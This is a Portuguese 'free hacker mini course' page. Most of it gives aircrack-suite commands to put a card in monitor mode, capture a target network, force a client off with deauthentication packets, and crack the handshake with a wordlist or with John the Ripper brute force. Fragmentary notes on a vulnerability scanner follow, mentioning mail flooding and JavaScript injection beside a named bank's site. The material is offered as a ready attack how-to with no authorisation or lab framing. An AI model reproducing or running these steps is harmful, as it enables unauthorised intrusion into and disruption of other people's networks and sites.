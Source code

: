 # Mini Curso Gratuito Hacker

## Vulnerabilidades em Redes Wi-Fi
### Visualizando todas as placas de rede do computador
```
airmon-ng
```

### Colocando a placa de rede em modo de monitoramento
```
iwconfig wlan1 --traz todas as informações da placa de rede selecionada
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```
esse programa da suite aircrack serve para monitorar todas as redes wifi ao alcance
```
airodump-ng wlan1
```

### Visualizando todos os clientes de uma determinada rede
uma breve explicação sobre o airodump
esse e um programa que baixa os pacotes de wifi de uma determinada
rede enquanto a monitora tbm
```
airodump-ng --bssid 52:55:27:B4:4A:BC --channel 6 --write wifi wlan1
```

agora vamos forçar a desconexao de um cliente
```
aireplay-ng -0 100 -a F8:1A:67:D4:E2:60 -c 44:74:6C:F0:19:19 wlan1
```

depois de ter certeza que a pessoa foi desconectada agora iremos usar uma password list para achar a senha
temos que inserir o bssid da rede e nao do cliente atacado
```
aircrack-ng wifi-*.cap -w /root/passlist.txt -b E8:CC:18:F3:B0:80
```

caso a senha nao esteja no password list podemos tentar pelo jonh de ripper
se trata de um programa dedicado a brute force
```
john --stdout --incremental | aircrack-ng -b 00:19:5B:52:AD:F7 -w - /root/wifi*.cap
```

------------------------------------------------------------------------------------------------

Shadow security scanner
Safety-lab *cuidado tem um monte malware
Pago

Executar como administrador

New session
Complete scan
Host
Name ip: nome do site
Start scan

Ping ttl net bios 
Porta 
53 redirect de dns 
587 mail flud
110 telnet vírus com imagem

Exibe qual é a falha e como concertar

Javascript injection
Site do itau

